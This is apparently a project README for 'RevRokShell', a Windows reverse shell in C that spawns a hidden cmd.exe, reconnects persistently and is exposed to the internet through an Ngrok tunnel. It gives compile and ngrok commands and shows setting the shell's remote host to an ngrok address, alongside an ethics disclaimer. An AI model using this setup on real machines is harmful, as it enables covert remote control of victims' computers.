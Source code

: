 # RevRokShell — Reverse Shell with Ngrok Tunnel

---

### ⚠️ Disclaimer

> **This project is intended strictly for educational, ethical hacking, and cybersecurity research purposes.**
>
> Do **not** use this tool against any system or network without **explicit written permission** from the owner. Misuse of this tool may result in **legal consequences**.

---

### About

This project demonstrates a **basic reverse shell in C** on Windows that:

* Launches **Ngrok** to expose a TCP port (e.g., 4444) over the internet.
* Connects back to `127.0.0.1:4444`, where Ngrok forwards traffic.
* Spawns a hidden `cmd.exe` session, allowing remote shell control.
* Logs all actions to `C:\temp\tampa.txt` for debugging or auditing.
* Automatically reconnects if the connection fails or closes.

---

### 🔧 Features

* Automatic setup of Ngrok via `cmd.exe`
* Background reverse shell loop with error logging
* Connection persistence and retry logic
* Supports **reserved TCP domains** (Ngrok paid feature)

---

### How It Works (Theory)

> Due to the author **not having an active Ngrok subscription**, the final reserved domain logic has not been tested live — but is **designed correctly in theory**.

**When executed:**

1. Ngrok is authenticated using your token (once).
2. Ngrok starts a TCP tunnel:

   ```
   ngrok tcp --remote-addr=your-reserved-name.ngrok-free.app:4444 4444
   ```
3. Victim shell connects to `127.0.0.1:4444`, which Ngrok tunnels to the internet.
4. You connect from a remote system to:

   ```
   your-reserved-name.ngrok-free.app:4444
   ```
5. You gain a reverse shell in your listener (e.g., Netcat, Metasploit).

---

### 🔐 Ngrok Configuration

Make sure to:

* Download and place `ngrok.exe` in your system's PATH.
* Replace this line with your **Ngrok authtoken**:

  ```c
  ngrok config add-authtoken <YOUR_TOKEN_HERE>
  ```
* Reserve your domain and port at [Ngrok Dashboard](https://dashboard.ngrok.com/) before use.

🚫 **Your actual token has been removed from the public version of this README.**

---

### ⚙️ Compilation

To compile on Windows:

```bash
cl reverse_shell.c /link ws2_32.lib
```

If you don't have `cl` (MSVC), use GCC (MinGW):

```bash
gcc reverse_shell.c -o reverse_shell.exe -lws2_32
```

---

### Testing Locally (Without Reserved Domain)

If you're not using a reserved domain:

1. Start Ngrok manually:

   ```bash
   ngrok tcp 4444
   ```
2. Note the forwarded address like:

   ```
   tcp://0.tcp.ngrok.io:12345
   ```
3. Change the IP and port in your code to match:

   ```c
   char ip_addr[] = "0.tcp.ngrok.io";
   char port[] = "12345";
   ```
4. Recompile and run.

---

### 💸 Donations

Want to support my learning and help me buy an Ngrok subscription?

> **Dogecoin address:**

```
DHERUQ8925qMWCcGzJZQe43E9yEfnpVK3p
```

Even small tips help me explore more advanced topics like encrypted shells, AV evasion, and secure coding. Thanks! 🚀🐶

---

### 📚 Credits

* Windows API documentation – [Microsoft Docs](https://learn.microsoft.com/)
* Reverse Shell & Sockets concept – [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* Ngrok Tunnel usage – [Ngrok Docs](https://ngrok.com/docs)

---

### Final Reminder

> Never test reverse shells on devices you do not own or control.
>
> Learn, don’t break. Build, don’t destroy.
